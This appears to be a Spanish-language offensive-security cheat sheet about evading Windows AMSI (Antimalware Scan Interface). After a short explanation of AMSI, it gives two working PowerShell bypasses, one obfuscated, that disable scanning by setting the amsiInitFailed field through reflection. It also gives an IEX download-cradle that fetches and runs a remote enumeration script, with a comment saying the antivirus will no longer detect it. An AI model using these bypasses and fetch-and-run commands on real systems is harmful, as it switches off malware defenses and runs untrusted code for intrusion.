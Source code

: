 # AMSI

Tags: #AD #Windows #Powershell #AMSI #Evasion 

* [AMSI.fail](https://amsi.fail/)

AMSI (Antimalware Scan Interface) es una interfaz estándar desarrollada por Microsoft para que las soluciones antimalware de Windows puedan analizar contenido en busca de actividades maliciosas. Introducida con Windows 10, AMSI trabaja junto a otros componentes de seguridad, como Windows Defender, para ofrecer una capa adicional de protección.

De forma sencilla, AMSI permite que aplicaciones y servicios envíen contenido a un motor antimalware para ser evaluado antes de su ejecución, lo que resulta especialmente útil para analizar scripts en tiempo real. Es capaz de detectar y escanear scripts en lenguajes como PowerShell, VBScript o Ruby, incluso cuando están ofuscados.
## Por qué los ciberdelincuentes buscan evadir AMSI?

```bash 
AMSI (Antimalware Scan Interface) representa una barrera crítica para los atacantes debido a su capacidad para detectar comportamientos maliciosos en tiempo real, incluso antes de que el código se ejecute. Esto lo convierte en un objetivo prioritario para quienes intentan evadir la detección y garantizar el éxito de sus ataques, especialmente aquellos basados en scripts ofuscados o técnicas de ejecución en memoria.

- Detección en tiempo real: AMSI analiza el contenido justo antes de que se ejecute, bloqueando ataques antes de que se materialicen, lo que obliga a los ciberdelincuentes a evadir esta capa de seguridad para ejecutar su código malicioso.
    
- Análisis de scripts ofuscados: Aunque los atacantes ofuscan sus scripts para evitar las soluciones tradicionales, AMSI puede escanearlos tras ser desofuscados, cuando están en su forma original, lo que complica los intentos de ocultar intenciones maliciosas.
    
- Integración amplia: AMSI no se limita a analizar scripts; también puede escanear otros contenidos arbitrarios enviados por diversas aplicaciones y servicios, ampliando su alcance y reduciendo las posibilidades de éxito de un atacante.
    

Dada su eficacia, los ciberdelincuentes recurren a diversas técnicas para evadir AMSI, como:

- Cargar bibliotecas antiguas: Usar versiones anteriores de DLLs que no soporten AMSI para desactivar su funcionalidad.
- Manipulación de memoria: Alterar áreas de memoria relacionadas con AMSI para inutilizarlo.
- Ofuscación avanzada: Implementar métodos innovadores para intentar superar las capacidades de análisis de AMSI.
- Abusar de herramientas legítimas: Utilizar técnicas como _Living off the Land_ para ejecutar acciones maliciosas mediante herramientas legítimas que pueden eludir el escaneo o generar confianza.

La capacidad de AMSI para identificar amenazas en tiempo real lo convierte en un desafío constante para los atacantes, quienes buscan superarlo con técnicas cada vez más sofisticadas.
```

Los siguientes scripts los podemos ejecutar en la consola de  **Powershell**  antes de  ejecutar un comando que descargue un binario que detecte el antivirus como lo puede ser **adPeas**, etc... 

```powershell 
❯ $ExecutionContext.SessionState.LanguageMode    # Mirar los tipos de lenguaje 

	1. FullLanguage            # Acceso completo a todas las funcionalidades del lenguaje de Powershell
	2. RestrictedLanguage      # Solo permite un subconjunto del lenguaje de Powershell 
	3. ConstrainedLanguage     # Restringe el acceso a tipos .NET y a algunas capacidades del languaje 
	4. NoLanguage              # Lenguage completamente deshabilitado 
```

```powershell 
❯ Get-AppLockerPolicy -Effective 
❯ Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
```

```powershell 
❯ S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
# Ya no nos lo detectara el Antivirus 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/adPEAS/main/adPEAS.ps1')
```

## Otra alternativa para el ByPass:

```Powershell 
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```